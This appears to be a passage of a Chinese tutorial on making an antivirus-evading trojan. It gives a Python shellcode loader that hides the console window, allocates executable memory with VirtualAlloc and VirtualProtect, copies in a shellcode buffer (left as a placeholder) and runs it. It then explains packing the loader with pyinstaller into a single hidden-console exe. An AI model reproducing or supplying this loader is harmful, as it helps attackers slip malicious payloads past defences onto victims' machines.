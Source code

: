 ```
from ctypes import *
import ctypes
# length: 891 bytes
buf = "xxx"
#libc = CDLL('libc.so.6')
PROT_READ = 1
PROT_WRITE = 2
PROT_EXEC = 4
def executable_code(buffer):
   buf = c_char_p(buffer)
   size = len(buffer)
   addr = libc.valloc(size)
   addr = c_void_p(addr)
   if 0 == addr: 
       raise Exception("Failed to allocate memory")
   memmove(addr, buf, size)
   if 0 != libc.mprotect(addr, len(buffer), PROT_READ | PROT_WRITE | PROT_EXEC):
       raise Exception("Failed to set protection on buffer")
   return addr
VirtualAlloc = ctypes.windll.kernel32.VirtualAlloc
VirtualProtect = ctypes.windll.kernel32.VirtualProtect
shellcode = bytearray(buf)
whnd = ctypes.windll.kernel32.GetConsoleWindow()   
if whnd != 0:
      if 666==666:
             ctypes.windll.user32.ShowWindow(whnd, 0)   
             ctypes.windll.kernel32.CloseHandle(whnd)
print ".................................."*666
memorywithshell = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),
                                       ctypes.c_int(len(shellcode)),
                                         ctypes.c_int(0x3000),
                                         ctypes.c_int(0x40))
buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
old = ctypes.c_long(1)
VirtualProtect(memorywithshell, ctypes.c_int(len(shellcode)),0x40,ctypes.byref(old))
ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(memorywithshell),
                                    buf,
                                    ctypes.c_int(len(shellcode)))
shell = cast(memorywithshell, CFUNCTYPE(c_void_p))
shell()
```
### (2) 进入到pyinstaller所在目录(默认安装后在Scripts目录下),然后运行:
![图片](https://ae01.alicdn.com/kf/U325826c308174d16ba5e1d5c70b96cc7N.jpg)

参数解释:

```
-F:输出为单个文件(会把所有的第三方依赖、资源和代码均被打包进该exe内)
-i:指定图标
-w:隐藏控制台
pyinstaller参数可参考:
https://blog.csdn.net/weixin_39000819/article/details/80942423
```
运行后等待结束会在dist目录下生成一个exe文件(就是我们打包好的免杀马):
![图片](https://ae01.alicdn.com/kf/Uf952b6c8542e4744987c0c594680d08as.jpg)
